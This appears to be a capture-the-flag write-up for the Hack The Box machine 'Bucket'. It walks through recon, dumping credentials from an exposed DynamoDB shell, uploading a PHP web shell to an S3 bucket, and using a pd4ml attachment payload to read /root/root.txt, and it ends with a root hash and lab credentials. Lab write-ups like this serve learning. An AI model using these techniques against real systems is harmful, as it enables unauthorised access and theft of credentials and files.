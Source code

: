 # Bucket - Medium

### Intial recon
After a brief run of nmap using `nmap -sC -sV -oN nmap/all 10.10.10.212 -p- -v` we get two ports open: 22(ssh) and 80(web),so this box user is all about web exploits. 

### Initial recon on web 
At first we are greeted with a redirect to `bucket.htb` which I already added in `/etc/hosts`. Here there is a weird website that doesn't have any aditional links, so the only thing left to do is check the source code and start a gobuster in the background. 

After we scroll those few hundered lines of css we endup with a new subdomain `s3.bucket.htb` which might be a hint to AWS S3 services. Now we are greeted with a json response `{"status": "running"}`. So I started another gobuster and got two endpoints: `/health` and `/shell`. The `health` endpoint discloses the two services that are running s3 and dynamodb while `shell` is kindof broken. In order to access the console you must do `http://s3.bucket.htb/shell/`, otherwise it will redirect to a trash url that might be a docker container id.

### Getting the foothold

The most obvious thing was to search for the docs and I've found at this link [AWS Javascript SDK](https://docs.aws.amazon.com/AWSJavaScriptSDK/latest/AWS/DynamoDB_20111205.html) manual/documentation. Here it comes a sequence of commands:
```javascript
var params = {};
dynamodb.listTables(params, function(err, data) {
  if (err) console.log(err, err.stack); // an error occurred
  else     console.log(data);           // successful response
});
/**
Which outputs
{"TableNames":["users"]}
*/
```

In order to querry this table, the documentation was useless so I've found this answer on [StackOverflow](https://stackoverflow.com/questions/57988963/how-to-access-dynamodb-local-using-dynamodb-javascript-shell) that outputs
```javascript
var params = {
    TableName: 'users'
};
dynamodb.scan(params, function(err, data) {
    if (err) ppJson(err); // an error occurred
    else ppJson(data); // successful response
});

/**
"Items"[
    0:{
        "password":{"S": "Management@#1@#"},
        "username":{"S": "Mgmt"}
    },
    1:{
        "password":{"S": "Welcome123!"},
        "username":{"S": "Cloudadm"}
    },
    2:{
        "password":{"S": "n2vM-<_K_Q:.Aa2"},
        "username":{"S": "Sysadm"}
    }
],
"Count": 3,
"ScannedCount": 3
*/
```

So now we have 3 usernames and their passwords. I tried all 9 combinations and non worked on ssh. This made me thing that we must find the username that's on the box and match it with one of these 3 passwords. In order to do this I tought we that I should use AWS CLI so i installed it. Here there were three things that I didn't know: `AWS Access Key ID`. `AWS Secret Access Key ` and `Region`. For first two I just created an account on AWS and passed my keys (i don't quite know if they matter at all), and the last one was `us-east-1` found using this sequence:
```javascript
var params = {
  TableName: 'users' /* required */
};
dynamodb.describeTable(params, function(err, data) {
  if (err) console.log(err, err.stack); // an error occurred
  else     console.log(data);           // successful response
});
/*
{"Table":{"AttributeDefinitions":[{"AttributeName":"username","AttributeType":"S"},{"AttributeName":"password","AttributeType":"S"}],"TableName":"users","KeySchema":[{"AttributeName":"username","KeyType":"HASH"},{"AttributeName":"password","KeyType":"RANGE"}],"TableStatus":"ACTIVE","CreationDateTime":"2020-10-17T19:03:03.008Z","ProvisionedThroughput":{"LastIncreaseDateTime":"1970-01-01T00:00:00.000Z","LastDecreaseDateTime":"1970-01-01T00:00:00.000Z","NumberOfDecreasesToday":0,"ReadCapacityUnits":5,"WriteCapacityUnits":5},"TableSizeBytes":107,"ItemCount":3,"TableArn":"arn:aws:dynamodb:us-east-1:000000000000:table/users"}}
*/
```

Now the on only thing left to do is upload a shell with `aws s3 cp index.php s3://adserver/index.php --endpoint-url http://s3.bucket.htb/` and trigger it accessing the `http://bucket.htb/index.php`. Now we have a shell, so we can `cat /etc/passwd |grep /usr/bin` which gives us `root` and `roy`.s

I tried to `ssh roy@bucket.htb` and pass the password for sysadm `n2vM-<_K_Q:.Aa2` and we got user.

### Getting the root 
This part was based on another web exploit and it was kindof obvious to check because it was an app in `/var/www`  that was available only on localhost. So I started the analisys in the `/var/www/bucket-app` directory. Here the `index.php` contains some juicy stuff which made me see the root path.

At first we must create a tabel called `alerts`, which has `title, data` as fields. The sequence can be found under `dynamodb.js`. Now I fall down in a rabbit hole and tried to symlink a lot of stuff but none worked. Than I remembered the `Book` part in which we could read files in a pdf so I tought that `pd4ml` can do the exact same thing. For this I've found [this](https://pd4ml.com/support/pdf-generation-troubleshooting-f4/attachment-embeding-taking-time-t1569.html) link that does the exact same thing. So the crafted payload is: `<pd4ml:attachment type="paperclip" description="a" src="/root/root.txt"/>`.


Now that we pwned this box, I want to try and see if we can get an SSH connection via the root hash or by retrieving the ssh keys. The hash seemed uncrackable, but in the root directory there was the `id_rsa` file so mission acomplished. It can be found under the `rootRSA` name in here. 


PWNED.

# Root hash
- $6$rvx83lCm9lfbxx/M$x56XT96DB4RIHKtx8HhObNwNNe1TBEAUZlkhhgE2Goqg.ZnbIn/VOD.T2Q0XhcTxmLmAMrjk5ad6Gsd/jgjQn/
# Credentials
- Mgmt:Management@#1@# (no use)
- Cloudadm:Welcome123! (no use)
- Sysadm:n2vM-<_K_Q:.Aa2 (no use)
- roy:n2vM-<_K_Q:.Aa2  (user, ssh)